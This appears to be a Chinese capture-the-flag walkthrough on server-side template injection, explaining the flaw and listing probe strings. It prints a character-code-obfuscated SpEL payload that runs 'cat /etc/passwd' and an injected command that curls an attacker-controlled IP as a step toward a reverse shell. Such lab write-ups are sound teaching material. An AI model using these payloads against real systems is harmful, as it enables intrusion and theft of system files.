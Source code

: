 ```
template = "Bio: {{ user.bio }}"
render(template)
```
如果使用此模板显示用户的输入，那么它是完全安全的，因为我们所做的只是从数据库中获取当前用户的信息，然后将其返回给用户，但下面这个例子就不太一样了：
```
template = "Bio:  " + USER_INPUT
render(template)
```
如果用户的输入的成为模板的一部分，那么我们就有一个大问题，因为模板有能力执行任意代码，所以用户可以在服务器上获得一个shell
这种漏洞通常被称为服务器模板注入，攻击者可以在其中注入恶意模板代码来获得shell，但需要注意的一点是，它不仅限于服务器，只要模板可用，漏洞就可以存在于任何地方
更详细的原理解释
```
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
```
## 检查是否存在SSTI
可以使用以下字符串来测试模板是否存在SSTI，以及网站黑名单
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```
在测试到最后两个字符串时，网页出现了变化


![在这里插入图片描述](https://img-blog.csdnimg.cn/564602a3024c4ebb8f390a9c06b3071d.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/13f10475bda048329d403ceacf29e4b2.png)


服务器执行了我们输入的字符串，7*7

说明网站存在SSTI漏洞，现在尝试读取机子上的/etc/passwd文件

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/4ed1fc392829401a84012b93307e4410.png)
# 反弹shell，获取用户权限

成功读取，现在我们尝试反弹shell，用python开启http服务器
```
python3 -m http.server 80
```
然后去靶机网站上执行以下内容
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.14.10")}
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/dd0ccc3682904ae895703d9dc59be2d3.png)
